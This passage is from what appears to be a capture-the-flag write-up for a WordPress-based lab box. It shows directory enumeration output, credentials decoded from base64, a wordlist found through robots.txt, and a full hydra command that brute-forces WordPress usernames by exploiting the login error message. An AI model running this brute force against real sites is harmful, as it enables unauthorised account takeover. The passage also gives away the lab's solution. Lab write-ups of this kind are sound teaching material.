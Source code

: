 ```
/index.php (Status: 301)
/intro (Status: 200)
/js (Status: 301)
/license (Status: 200)
/login (Status: 302)
/page1 (Status: 301)
/phpmyadmin (Status: 403)
/rdf (Status: 301)
/readme (Status: 200)
/robots (Status: 200)
/robots.txt (Status: 200)
/rss (Status: 301)
/rss2 (Status: 301)
/sitemap (Status: 200)
/sitemap.xml (Status: 200)
/video (Status: 301)
/wp-admin (Status: 301)
/wp-config (Status: 200)
/wp-content (Status: 301)
/wp-cron (Status: 200)
/wp-includes (Status: 301)
/wp-load (Status: 200)
/wp-links-opml (Status: 200)
/wp-login (Status: 200)
/wp-signup (Status: 302)
=====================================================
2024/01/26 10:49:20 Finished
=====================================================
```

Wow, that's along list, let's start working our way down. The first interesting file I found was `/license`, which contains some text that looks like bas64 at the bottom of the file. Sure enough, after decoding the base64 we found a username/password combination!

The next interesting file I found was `/robots.txt`, which references two different files: `fsocity.dic` and `key-1-of-3.txt`. These contain a username/password list, and our first key!

We also found from our web server enumeration many standard directories for a wordpress site. Let's try the credientials we found previously on the login page: `/wp-login`.

# 2.5 (Alternate Method) Brute Force

Although you can find the Wordpress credentials in the `/license` file, I also found an alternate way that uses the `fsocity.dic` file that was provided: brute force.

I noticed while exploring the login page at `/wp-login` that the error message specifically stated that the username I provided was incorrect. This makes a username/password combination much easier to brute force because we can do them one at a time instead of having to guess both correctly at the same time. I'll use `hydra` to brute force the username.

```
$ hydra -L fsocity.dic -p password <ip-address> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.41.14%2Fwp-admin%2F&testcookie=1:F=Invalid username" -v
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-26 11:59:29
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://<ip-address>:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.41.14%2Fwp-admin%2F&testcookie=1:F=Invalid username
```
